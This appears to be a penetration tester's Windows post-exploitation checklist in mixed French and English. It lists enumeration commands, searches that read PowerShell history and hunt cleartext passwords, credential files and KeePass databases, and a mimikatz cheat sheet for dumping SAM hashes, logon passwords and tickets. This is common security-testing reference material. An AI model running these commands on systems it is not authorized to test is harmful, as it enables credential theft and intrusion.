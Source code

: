 # Checklist Windows
  
**Hostname:** hostname  
**Infos utilisateur:** whoami /all  
**infos IP:** ipconfig /all  
**liste des connexions:** netstat -ano  
**infos system:** systeminfo  
**powershell-history:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt  
to verify the path of ConsoleHost_history: (Get-PSReadlineOption).HistorySavePath  
  
**list connected user:**  
query user  
  
**users and localgroups:**  
net users  
net localgroups  

**More info about a specific user:**  
net user [user]  
  
**View Domain Groups:**  
net group /domain  
  
**View Members of Domain Group:**  
net group /domain [Group Name]  

**lister user/groupe en powershell:**  
Get-LocalUser  
Get-LocalGroup  
Get-LocalGroupMember adminteam  
  
**process:**  
Get-Process  
tasklist /v  
  
**Logiciels installés:**  
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname  
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname  
  
**Firewall:**  
netsh firewall show state  
netsh firewall show config  

## Cleartext Passwords  
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
  
**Find all those strings in config files.**  
dir /s *pass* == *cred* == *vnc* == *.config*  
  
**Find all passwords in all files.**  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

**Kepass File**  
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue  
  
All doc file :
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

## mimikatz.exe cheat sheet
privilege::debug  -->  engage the SeDebugPrivlege  
lsadump::sam --> Dump from SAM database
sekurlsa::logonpasswords --> Dump from Sekurlsa
sekurlsa::tickets --> Dump cached tickets
Some source: https://chryzsh.gitbooks.io/pentestbook/content/privilege_escalation_windows.html  
